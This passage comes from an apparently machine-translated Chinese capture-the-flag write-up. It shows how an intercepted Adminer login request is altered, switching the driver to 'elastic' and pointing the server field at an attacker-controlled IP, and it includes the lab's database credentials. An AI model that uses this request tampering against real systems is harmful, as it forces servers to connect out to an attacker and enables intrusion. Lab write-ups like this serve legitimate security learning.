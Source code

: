 ![](img/1c98c2f1cf96c86a50bd82faa641a3b5.png)

使用打嗝来拦截请求

POST 消息的最后一部分是 URL 编码的，如果您对它进行解码，它看起来像这样:

```
auth[driver]=server&
auth[server]=localhost&
auth[username]=admirer_ro&
auth[password]=1w4nn4b3adm1r3d2!&
auth[db]=admirer&
auth[permanent]=1
```

如果你看看这个漏洞，它显示你改变系统字段为 Elasticsearch，对于我们的表单，我们需要改变参数 **auth[driver]** ，这是等价的。更复杂的是，如果你在文档中查看[这里](https://github.com/vrana/adminer/blob/master/adminer/drivers/elastic.inc.php)驱动程序实际上被称为 elastic 而不是 elasticsearch。

其次，该漏洞显示您将服务器更改为您的攻击机器 IP，对于我们的表单，我们需要更改参数**auth[服务器]** ，这是等效的。

所以我们改变的参数看起来像这样:

```
auth[driver]=elastic&
auth[server]=10.10.16.95&
auth[username]=admirer_ro&
auth[password]=1w4nn4b3adm1r3d2!&
auth[db]=admirer&
auth[permanent]=1
```

URL 对其进行编码，并在 Burp 中进行替换，如下所示:

